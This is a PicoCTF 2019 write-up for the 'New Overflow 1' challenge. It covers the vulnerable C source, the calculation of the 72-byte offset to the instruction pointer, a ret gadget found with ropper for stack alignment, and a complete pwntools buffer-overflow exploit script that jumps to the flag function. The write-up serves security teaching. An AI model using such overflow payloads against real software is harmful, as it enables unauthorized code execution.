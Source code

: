 [Back](PicoFrontPage.md)

# New Overflow 1
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools
* GEF-GDB
* Pwntools - Python3
* Ropper

### Source Code

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

### Analysis

Some important points:
* Working with 64-bit which translates to everything being in 8 bytes (64 bits)
* 64-bit programs store arguments in registers, not on the stack (not needed in this question though)

Start off by doing the usual, calculating how many bytes are required to overwrite the instruction pointer (`$rip`) (remember, the registers are 8 bytes now, not 4).

It should come out as 72 bytes to reach the instruction pointer.

Next, we will be searching for an appropriate ROP gadget using `ropper`
ROP gadgets are all series of instructions that conclude with a `ret` instruction.
Command: `ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`
We don't need to store anything inside any instruction so just a normal `ret` instruction will do.

<!-- NewOverflow1Ropper -->
![Image of ropper](../Images/PicoCTF2019/NewOverflow1ropper.JPG)

Find out the address of the `flag()` function however you want (e.g., `x flag`, `disas flag`, `info functions`, etc.) and then construct your script as below.

Note: if you try to run it without the gadget, the program will get stuck at the instruction below:

<!-- NewOverflow1movaps -->
![Image of movaps](../Images/PicoCTF2019/NewOverflow1movaps.JPG)

If you search the instruction up, it'll basically say that it's getting stuck because it's not aligned on a 16-byte boundary (not divisible by 16).
Since we're working with hexadecimal addresses, this means that the address has to end in a 0.

### Pwntools Script

Here is the script:

```python
from pwn import *

p = process('./vuln') # specifying the process

# variables
ret = 0x04005de	# rop gadget
flag = 0x0400767 # flag function address

# payload, p64() because 64-bit (little-endian)
payload = b'A'*72
payload += p64(ret)
payload += p64(flag)

# receive until character
p.recvuntil(b':')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 2](overflow2writeup.md) | [New Overflow 2](newoverflow2writeup.md)
